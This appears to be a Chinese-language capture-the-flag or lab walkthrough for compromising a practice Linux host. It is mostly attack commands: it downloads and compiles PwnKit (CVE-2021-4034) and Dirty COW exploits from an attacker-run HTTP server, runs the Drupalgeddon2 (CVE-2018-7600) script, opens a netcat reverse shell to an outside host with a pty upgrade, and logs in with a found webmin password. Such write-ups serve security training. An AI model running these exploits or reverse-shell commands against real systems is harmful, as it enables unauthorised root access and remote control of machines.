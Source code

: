 或者用：cve-2021-4034
wget http://10.211.55.19:8081/cve-2021-4034-poc.c
gcc cve-2021-4034-poc.c -o dayu1
chmod +x dayu1
./dayu1

或者用：脏牛提权 （项目二内容）

cp /usr/share/exploitdb/exploits/linux/local/40847.cpp
python -m SimpleHTTPServer 8081
wget http://10.211.55.19:8081/40847.cpp
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dayu1 40847.cpp -lutil
chmod +x dayu1
./dayu1
ssh root@10.211.55.42
dirtyCowFun



---------------------
#### 方法2：Drupal 远程代码执行 (SA-CORE-2018-002)   CVE-2018-7600

https://github.com/dreadlocked/Drupalgeddon2
wget https://github.com/dreadlocked/Drupalgeddon2/blob/master/drupalgeddon2.rb
下载好drupalgeddon2.rb攻击脚本！

./drupalgeddon2.rb http://10.211.55.42/jabc

如果执行报错：

	2: from ./drupalgeddon2.rb:16:in `<main>'
	1: from /usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb:85:in `require'

https://github.com/dreadlocked/Drupalgeddon2/issues/55  ---参考文章解决
-----  执行：sudo gem install highline  安装完后即可运行！

./drupalgeddon2.rb http://10.211.55.42/jabc   ---成功拿到shell
然后nc反弹个稳定的shell：
nc -vlp 7777
nc -e /bin/sh 10.211.55.19 7777
python -c 'import pty; pty.spawn("/bin/bash")'

---------------------
#### 方法3：

访问：
http://10.211.55.42/jabcd0cs/
webmin
webmin1980
成功登录！

后台可以上传php，但是无法解析！

-------------------
#### 方法4：3d建模
cd /home/webmin
post.tar.gz

